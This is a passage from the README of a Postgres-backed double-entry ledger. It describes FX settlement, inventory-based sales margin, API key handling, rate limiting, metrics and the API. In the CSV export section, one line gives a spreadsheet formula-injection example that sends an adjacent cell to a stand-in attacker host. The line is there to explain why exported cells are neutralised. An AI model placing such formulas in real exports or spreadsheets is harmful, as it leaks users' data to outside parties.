1,132 tests · 64 files · no external services
```

### Foreign exchange, for the businesses that actually feel it

An importer books a 40,000 USD supplier invoice at 25,400 dong to the dollar
and pays it three weeks later at 25,700. The dollars cancel exactly — 40,000
out against 40,000 owed — while the dong differ by twelve million. That is a
realized loss, and an importer's margin lives on it.

The settlement is **one entry**. A designated account absorbs the difference,
and the rule for when that is allowed has an exact answer rather than a
heuristic: only when the entry already balances **within every transaction
currency**. If the dollars net to zero and the dong net to zero yet the
functional totals do not, the only possible cause is two rates applied to the
same amount. A mistyped amount breaks a currency's balance and is still
refused — so the adjustment cannot swallow a typo, which is the only thing that
makes an automatic plug defensible.

Everything under it stays exact. A rate is parsed to an integer scaled by
10¹⁰, never a float; minor units are rescaled by the difference in exponents
inside the same fraction, so there is one rounding, half away from zero.
Reversing a foreign entry carries the _original's_ rates rather than today's,
because a reversal exists to cancel exactly.

### Selling stock, and knowing what it made

A distributor's ledger could say what was invoiced and, separately, what stock
had left. Both entries balanced; neither knew the other existed, so the margin
on an invoice was a VLOOKUP between two exports.

A sale is one entry: the receivable in the invoice's currency, revenue and
output tax in the functional one, and the cost of goods sold drawn from the
lots by each item's own method. Its lines _are_ its stock movements, each
carrying what it was sold for, so margin by invoice, product and customer is a
`GROUP BY` over facts the ledger already holds. A deferred constraint checks at
`COMMIT` that an invoice's revenue and cost equal the sums of its lines — the
property that makes "by product" and "by customer" two views of one total.

Two lines of the same paver do not both draw from the oldest container: the
lots are drawn down in memory, line by line, under the same row locks an issue
takes. An export invoiced in dollars posts dollars to the buyer's receivable and
dong to revenue at the rate on the day; freight that lands after the goods have
gone shows against the product, not the invoice, and the report says so.

The entries the stock records wrote cannot be reversed from the journal — the
reversal would move the account and leave the lots behind — and the stock page
and month end reconcile each inventory account to its lots, naming any
hand-typed entry that pulled them apart. See [ADR 18](docs/adr/0018-sales-and-margin.md).

Receivables age from when they fall **due** — the invoice's own date, else the
customer's payment terms, else thirty days — rather than from the invoice date,
because on sixty-day terms a forty-day-old invoice is not late. See
[ADR 19](docs/adr/0019-ageing-by-due-date.md).

### The parts a product needs and a demo skips

**Credentials you can rotate.** Keys are stored as SHA-256 digests and shown
once. Each keeps an identifying prefix in the clear, which is what makes
revoking the _right_ key possible — without it a management screen can only
offer the name someone typed months ago. The `obol_sk_` prefix is not
decoration either: secret scanners match on distinctive prefixes, so a key
pasted into a public repository can be found and revoked automatically.
Revocation keeps the row, because a deleted one answers "who had access, and
until when?" with silence.

**Metadata that is actually searchable.** The invoice number lives in the
caller's world, and without somewhere to put it they keep a parallel table
mapping their ids to ours — one more thing that can disagree with the ledger.
Indexed with `GIN (metadata jsonb_path_ops)`: the containment lookup runs in
0.26 ms reading 5 buffers where the `->>` form most people write first takes
8.71 ms across three parallel workers reading 4,653. Both plans are in
[benchmarks](docs/benchmarks.md).

**Exports that survive Excel.** A cell beginning `=` is a _formula_ to Excel,
Sheets and LibreOffice, so an entry described
`=HYPERLINK("http://evil/?"&A1,"Click")` exfiltrates the row beside it — and on
a ledger the attacker's input channel is "type a description". Cells are
neutralised, the file opens with a UTF-8 BOM so Excel does not mangle every
accented name, and it streams rather than being assembled in memory.

**A limiter that holds across instances.** The counter is a sliding window in
Postgres, not a map in one process — an in-process counter lets N instances
allow N times the quota, and a cold start hands an attacker a fresh allowance.
The local map stays as a pre-check that may _reject_ but never grant, because a
local count is a subset of the shared one; that bounds database work at roughly
the quota per client per window, which is the regime where it matters. A
concurrency test fires forty requests from forty simulated cold starts and
asserts ten get through; without the shared counter, all forty do.

**Metrics with one alertable number.** `obol_ledger_residual_minor` has exactly
one correct value, forever, in every currency: zero. It cannot false-positive
on a traffic spike, which makes it the rare gauge worth waking someone for. See
[observability](docs/observability.md) for both alerts and their runbooks.

## Stack

|                |                                                                                                                                   |
| -------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| **Framework**  | Next.js 16 (App Router), React 19, TypeScript 5.9 in strict mode plus `noUncheckedIndexedAccess` and `exactOptionalPropertyTypes` |
| **Database**   | Postgres via drizzle-orm and `node-postgres` — see [ADR 3](docs/adr/0003-database-driver.md)                                      |
| **Validation** | zod 4, with the OpenAPI document generated from the same schemas                                                                  |
| **Testing**    | Vitest, PGlite, fast-check                                                                                                        |
| **Styling**    | Tailwind CSS v4 with semantic design tokens                                                                                       |

## Running it

Any Postgres 15+ will do — local, containerised, or managed.

```bash
pnpm install
cp .env.example .env.local     # point DATABASE_URL at your Postgres
pnpm db:migrate                # apply the schema and its invariants
pnpm db:seed                   # a quarter of trading for a stone exporter
pnpm dev
```

The seed is deterministic and asserts its own output: if the books do not
balance it fails rather than leaving a broken ledger behind.

```bash
pnpm verify      # format check, lint, typecheck, tests — what CI runs
pnpm test        # tests alone (no database required)
```

## The API

`GET /api/openapi.json` serves the full contract, assembled from the live zod
schemas — it cannot describe a body the server would reject. A rendered version
is at `/api-reference`.

Reads are public — try them against the live deployment:

```bash
curl -s https://obol-ledger.vercel.app/api/v1/reports/trial-balance | jq
```

Stock and sales are on the API too — `/api/v1/items` (receipts, issues,
write-offs), `/api/v1/sales`, and the `gross-margin` and `stock-reconciliation`
reports — so a warehouse system or a storefront can raise an invoice and get
its margin back. Quantities travel as decimal strings like money, and one with
more places than the item is measured in is refused rather than rounded.

Writes need `Authorization: Bearer $LEDGER_API_TOKEN`.

```bash
curl -X POST https://$HOST/api/v1/entries \
  -H "Authorization: Bearer $LEDGER_API_TOKEN" \
  -H "Content-Type: application/json" \
  -H "Idempotency-Key: $(uuidgen)" \
  -d '{
    "description": "Consulting fee",
    "currency": "USD",
    "postings": [
      { "accountId": "acct_…", "direction": "debit",  "amount": "1200.00" },
      { "accountId": "acct_…", "direction": "credit", "amount": "1200.00" }
    ]
  }'
```

An unbalanced entry comes back as an RFC 9457 problem document, with the figures
as extension members so nothing has to be parsed out of prose:

```json
{
  "type": "https://obol-ledger.dev/problems/unbalanced-transaction",
  "title": "Transaction does not balance",
  "status": 422,
  "detail": "Postings sum to 0.01 USD; a balanced transaction sums to zero.",
  "code": "unbalanced_transaction",
  "residual": "0.01",
  "currency": "USD",
  "requestId": "0f8c…"
}
```

| Endpoint                              |        |                                           |
| ------------------------------------- | ------ | ----------------------------------------- |
| `GET /api/v1/health`                  | —      | liveness plus a real database round trip  |
| `GET /api/v1/accounts`                | public | accounts with current balances            |
| `POST /api/v1/accounts`               | bearer | open an account                           |
| `GET /api/v1/accounts/{id}/statement` | public | paginated, with a running balance         |
| `GET /api/v1/entries`                 | public | the journal, newest first                 |
| `POST /api/v1/entries`                | bearer | record a balanced entry                   |
| `POST /api/v1/transfers`              | bearer | sugar for a two-legged entry              |
| `GET /api/v1/reports/trial-balance`   | public | debits, credits and residual per currency |
| `GET /api/v1/webhook-endpoints`       | public | registered subscribers                    |
| `POST /api/v1/webhook-endpoints`      | bearer | register one; the secret is shown once    |
| `GET /api/v1/webhook-deliveries`      | public | every attempt, with its status and error  |
| `GET /api/v1/api-keys`                | bearer | this tenant's credentials                 |
| `POST /api/v1/api-keys`               | bearer | issue one; the token is shown once        |
| `DELETE /api/v1/api-keys/{id}`        | bearer | revoke, keeping the row for the audit     |
| `GET /api/v1/metrics`                 | public | Prometheus text format                    |

Any listing takes `?format=csv` and streams a download instead. Full details,
including the metadata filter and every problem type, are in the
[OpenAPI document](https://obol-ledger.vercel.app/api/openapi.json).

## Documentation

- **[Design rationale](docs/design-rationale.md)** — the one idea everything
  follows from, what was considered and **rejected** (event sourcing, CQRS, a
  separate API service, `numeric` for money), where the seams are, and the three
  mistakes that are kept on the record because they are the useful part
- [Architecture](docs/architecture.md) — layering, where each rule is enforced,
  the error model, the testing strategy
- [Benchmarks](docs/benchmarks.md) — keyset vs `OFFSET`, with query plans
- **[What a real ledger API has](docs/comparison.md)** — measured against
  Modern Treasury and Increase, including what is deliberately missing and what
  is honestly broken
- [Observability](docs/observability.md) — the two alerts worth paging on, and
  why a rejected entry is not an error
- [ADR 1](docs/adr/0001-invariants-in-the-database.md) — invariants in the database
- [ADR 2](docs/adr/0002-signed-postings.md) — signed, debit-positive postings
- [ADR 3](docs/adr/0003-database-driver.md) — why `node-postgres` over the HTTP driver
- [ADR 4](docs/adr/0004-money-as-minor-units.md) — money as integer minor units
- [ADR 5](docs/adr/0005-idempotency.md) — claim-first idempotency keys
- [ADR 6](docs/adr/0006-keyset-pagination.md) — keyset pagination
- [ADR 7](docs/adr/0007-tenant-isolation.md) — tenant isolation via row-level security
- [ADR 8](docs/adr/0008-two-phase-entries.md) — authorisation and settlement as two phases
- [ADR 9](docs/adr/0009-webhooks.md) — webhooks via a transactional outbox
- [ADR 10](docs/adr/0010-multi-currency.md) — balancing in the functional currency
- [ADR 11](docs/adr/0011-chart-of-accounts.md) — account codes, convention versus law
- [ADR 12](docs/adr/0012-fx-revaluation.md) — unrealized FX as a remeasurement
- [ADR 13](docs/adr/0013-inventory-costing.md) — inventory as layers, costing as a policy
- [ADR 14](docs/adr/0014-two-locales.md) — the viewer's language is not the books' language
- [ADR 15](docs/adr/0015-landed-cost.md) — freight and duty belong in the cost of the goods
- [ADR 16](docs/adr/0016-consumption-tax.md) — three tax mechanisms, one name
- [ADR 17](docs/adr/0017-tax-returns.md) — a tax return is a journal entry
- [ADR 18](docs/adr/0018-sales-and-margin.md) — a sale is the invoice and the stock that left, in one entry
- [ADR 19](docs/adr/0019-ageing-by-due-date.md) — what is owed ages from when it falls due
- [ADR 20](docs/adr/0020-attacks-on-the-live-demo.md) — let a stranger attack the live demo
- [ADR 21](docs/adr/0021-credit-notes.md) — a sale is corrected by a credit note, never by an edit

## Licence

MIT
